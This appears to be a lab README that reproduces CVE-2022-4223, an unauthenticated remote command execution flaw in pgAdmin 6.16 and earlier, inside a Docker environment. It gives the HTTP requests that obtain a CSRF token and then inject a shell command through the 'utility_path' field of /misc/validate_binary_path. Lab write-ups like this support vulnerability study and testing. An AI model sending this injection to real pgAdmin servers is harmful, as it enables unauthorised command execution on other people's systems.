 # pgAdmin <= 6.16 Unauthenticated Remote Command Execution (CVE-2022-4223)

[中文版本(Chinese version)](README.zh-cn.md)

pgAdmin is a popular and feature rich Open Source administration and development platform for PostgreSQL, the most advanced Open Source database in the world.

The pgAdmin server includes an HTTP API that is intended to be used to validate the path a user selects to external PostgreSQL utilities such as pg_dump and pg_restore. The utility is executed by the server to determine what PostgreSQL version it is from. Versions of pgAdmin prior to 6.17 failed to properly secure this API, which could allow an unauthenticated user to execute arbitrary commands on the server.

References:

- <https://github.com/pgadmin-org/pgadmin4/commit/461849c2763e680ed2296bb8a753ca7aef546595>
- <https://github.com/advisories/GHSA-3v6v-2x6p-32mc>

## Vulnerable Environment

Execute following command to start a pgAdmin 6.16 server:

```
docker compose up -d
```

After the server is started, browse the `http://your-ip:5050` to see the default login page of pgAdmin.

## Exploit

Before exploiting the vulnerability, send the following request to obtain the CSRF token:

```
GET /login HTTP/1.1
Host: your-ip:5050
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Connection: close


```

Get the session id and csrf token from response:

![](1.png)

Then, fill the following request with the session id and csrf token and send it:

```
POST /misc/validate_binary_path HTTP/1.1
Host: your-ip:5050
Content-Length: 27
X-pgA-CSRFToken: [csrf-token]
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Cookie: pga4_session=[session-id]
Connection: close

{"utility_path":"a\";id;#"}
```

As you can see, `id` command has been executed successful:

![](2.png)
